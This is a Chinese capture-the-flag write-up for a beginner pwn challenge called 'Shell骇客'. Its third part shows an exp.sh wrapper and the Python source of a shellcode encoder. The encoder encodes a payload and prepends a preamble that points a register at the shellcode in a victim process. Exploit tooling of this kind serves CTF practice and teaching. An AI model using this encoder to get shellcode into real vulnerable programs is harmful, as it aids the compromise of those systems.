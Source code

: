 ##### 0x00 杂谈

其实这道题本来中文应该叫 **壳黑客** ,老大怕做题的同学get不到点就改成了Shell骇客。

出这道题本身有两个目的，一个是带萌新入pwn的大坑，再一个就是让萌新自己学会找工具。换言之，这是一道很简单的工具题。

不过出乎出题者意料的是，在前几天校内都没有一个人做出来。虽然妮可在二进制方向的确薄弱，但是如果搜索引擎都不会用，这也太让人失望了。

##### 0x03 第三问

再次强调，这题所有的3问，全是简单的工具题。

如果你有幸看到星盟[ex大佬的博客](http://blog.eonew.cn/archives/1125)，那么恭喜你，你已经成功的做完了这道题。

这篇博客解释的已经很详细了，笔者不再累述。

工具在`shellcode_encoder`文件夹下。

Try `./exp.sh`

```
#! /bin/sh
python2 main.py shellcode rax+29
```

```python
#!/usr/bin/env python

import encoder
import preamble
import sys

if len(sys.argv) != 3:
    print 'Usage: main.py <shellcode file> <pointer to shellcode>'
    print "Pointer to shellcode should be an expression that is the address of the start of the shellcode in the victim's address space"
    print 'Example: main.py shellcode.bin rcx'
    print 'Example: main.py shellcode.bin [rsp+-8]'
    print 'Example: main.py shellcode.bin 0x0123456789abcdef'
    print 'Example: main.py shellcode.bin rbp+5'
    sys.exit(1)

payload = open(sys.argv[1], 'rb').read()
encoded_payload = encoder.encode(payload)

shellcode_ptr = sys.argv[2]
print
print 'Encoding preamble for rdx <- %s' % (shellcode_ptr)
preamble = preamble.load_rdx(shellcode_ptr)
print preamble

print 
print 'Original length: %d' % (len(payload),)
print 'Encoded length:  %d' % (len(encoded_payload),)
print 'Preamble length: %d' % (len(preamble))
print 'Total length:    %d' % (len(preamble) + len(encoded_payload))
print
print preamble + encoded_payload
```
